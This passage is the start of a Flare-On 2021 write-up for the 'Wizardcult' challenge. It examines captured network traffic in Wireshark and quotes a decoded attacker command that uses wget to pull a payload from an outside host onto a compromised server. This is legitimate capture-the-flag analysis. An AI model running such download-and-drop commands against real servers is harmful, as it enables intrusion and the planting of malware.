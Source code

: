 ## 10 - Wizardcult
Description:
```
We have one final task for you.
We captured some traffic of a malicious cyber-space computer hacker interacting with our web server.
Honestly, I padded my resume a bunch to get this job and don't even know what a pcap file does.
Maybe you can figure out what's going on.
```
## First solution: Lazy method
> If you solved this challenge and just want to understand how the VM works, just go [here](#second-solution-understand-the-vm)

In this challenge, we were given a pcap file named "wizardcult.pcap". Let's open it in Wireshark. We could notice that the pcap contains a lot of TCP packets between 172.16.30.249 and 172.16.30.245. Here I used "Follow TCP stream" feature provided by Wireshark to view the entire conversation.

The first stream
<p align="center">
    <img src="/assets/images/flareon/2021/10/1.png"/>
</p>
seems like the server has been compromised, and the attacker successfully executed a command on the server.

In the second stream:
<p align="center">
    <img src="/assets/images/flareon/2021/10/2.png"/>
</p>
The attacker used wget to download something to the server. The command after being URL decoded is `wget -O /mages_tower/induct http://wizardcult.flare-on.com/induct`.
